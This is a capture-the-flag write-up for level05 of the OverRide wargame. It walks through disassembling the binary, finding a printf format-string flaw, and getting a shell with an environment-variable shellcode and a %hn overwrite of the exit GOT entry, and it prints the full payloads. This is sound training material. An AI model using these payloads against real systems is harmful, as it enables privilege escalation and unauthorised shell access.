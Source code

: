 # Level05

### Exploit :

Format string + env

### Step 1 :

```
level05@OverRide:~$ ./level05
bonjour
bonjour
level05@OverRide:~$ ./level05 bonjour
Hello World
hello world
level05@OverRide:~$
```

the program reads from stdin and then prints the result in lowercase.

### Step 2 :

First, let's look at the functions used :

```bash
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

We only have a main function and one exploitable function (printf)

Let's see main function :

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048444 <+0>:	push   ebp
   0x08048445 <+1>:	mov    ebp,esp
   0x08048447 <+3>:	push   edi
   0x08048448 <+4>:	push   ebx
   0x08048449 <+5>:	and    esp,0xfffffff0
   0x0804844c <+8>:	sub    esp,0x90																								// Allocates 144 bytes
   0x08048452 <+14>:	mov    DWORD PTR [esp+0x8c],0x0
   0x0804845d <+25>:	mov    eax,ds:0x80497f0
   0x08048462 <+30>:	mov    DWORD PTR [esp+0x8],eax
   0x08048466 <+34>:	mov    DWORD PTR [esp+0x4],0x64															// Buffer 100 bytes 
   0x0804846e <+42>:	lea    eax,[esp+0x28]
   0x08048472 <+46>:	mov    DWORD PTR [esp],eax																	
   0x08048475 <+49>:	call   0x8048350 <fgets@plt>																// call fgets
   0x0804847a <+54>:	mov    DWORD PTR [esp+0x8c],0x0
   0x08048485 <+65>:	jmp    0x80484d3 <main+143>
   0x08048487 <+67>:	lea    eax,[esp+0x28]
   0x0804848b <+71>:	add    eax,DWORD PTR [esp+0x8c]
   0x08048492 <+78>:	movzx  eax,BYTE PTR [eax]
   0x08048495 <+81>:	cmp    al,0x40
   0x08048497 <+83>:	jle    0x80484cb <main+135>
   0x08048499 <+85>:	lea    eax,[esp+0x28]
   0x0804849d <+89>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484a4 <+96>:	movzx  eax,BYTE PTR [eax]
   0x080484a7 <+99>:	cmp    al,0x5a																								// if buffer > 90
   0x080484a9 <+101>:	jg     0x80484cb <main+135>
   0x080484ab <+103>:	lea    eax,[esp+0x28]
   0x080484af <+107>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484b6 <+114>:	movzx  eax,BYTE PTR [eax]
   0x080484b9 <+117>:	mov    edx,eax
   0x080484bb <+119>:	xor    edx,0x20																								// tolower
   0x080484be <+122>:	lea    eax,[esp+0x28]
   0x080484c2 <+126>:	add    eax,DWORD PTR [esp+0x8c]
   0x080484c9 <+133>:	mov    BYTE PTR [eax],dl
   0x080484cb <+135>:	add    DWORD PTR [esp+0x8c],0x1
   0x080484d3 <+143>:	mov    ebx,DWORD PTR [esp+0x8c]
   0x080484da <+150>:	lea    eax,[esp+0x28]
   0x080484de <+154>:	mov    DWORD PTR [esp+0x1c],0xffffffff
   0x080484e6 <+162>:	mov    edx,eax
   0x080484e8 <+164>:	mov    eax,0x0
   0x080484ed <+169>:	mov    ecx,DWORD PTR [esp+0x1c]
   0x080484f1 <+173>:	mov    edi,edx
   0x080484f3 <+175>:	repnz scas al,BYTE PTR es:[edi]
   0x080484f5 <+177>:	mov    eax,ecx
   0x080484f7 <+179>:	not    eax
   0x080484f9 <+181>:	sub    eax,0x1
   0x080484fc <+184>:	cmp    ebx,eax
   0x080484fe <+186>:	jb     0x8048487 <main+67>
   0x08048500 <+188>:	lea    eax,[esp+0x28]
   0x08048504 <+192>:	mov    DWORD PTR [esp],eax
   0x08048507 <+195>:	call   0x8048340 <printf@plt>																	// call to printf(buffer)
   0x0804850c <+200>:	mov    DWORD PTR [esp],0x0
   0x08048513 <+207>:	call   0x8048370 <exit@plt>
End of assembler dump.
```

The program reads with fgets, switches the input to lower case and prints the string.

### Step 3 :

When we connect to the level we can already see that the stack is not executable (NX), so we will use a shellcode in an environment variable then execute it through format string with printf.
First, I need to know the position used (buffer)

```
level05@OverRide:~$ python -c 'print "AAAA"+ " %08x |" * 30' | ./level05
aaaa 00000064 | f7fcfac0 | f7ec3af9 | ffffd6af | ffffd6ae | 00000000 | ffffffff | ffffd734 | f7fdb000 | 61616161 | 38302520 | 207c2078 | 78383025 |
```

Buffer is in 10th position.

Next step store my shellcode inside my env

```
export PAYLOAD=$(python -c 'print "\x90"  * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"')
```

```
(gdb) x/40s *environ
[...]
0xffffdf36:	 "PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343\061\311\061Ұ\v̀"
[...]
```

```
level05@OverRide:~$ objdump --disassemble-all level05
...
08048370 <exit@plt>:
 8048370:	ff 25 e0 97 04 08    	jmp    *0x80497e0
 8048376:	68 18 00 00 00       	push   $0x18
 804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>
...
```

Now, I had all informations

- address of exit
- printf position
- address of my env variable

There address are too big, so I need to split it for create 2 short.

```bash
add exit + add exit+2 + 1th part of my shellcode + "%10$hn" + 2nd part of my shellcode + "%11$hn"'

"\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57192d" + "%10$hn" + "%8335d" + "%11$hn"
																							|											|
									(addr + size name + half nop)	- 8					0xffff - address of 1 part
```

```
(python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57192d" + "%10$hn" + "%8335d" + "%11$hn"'; cat) | ./level05
```

Level05 done !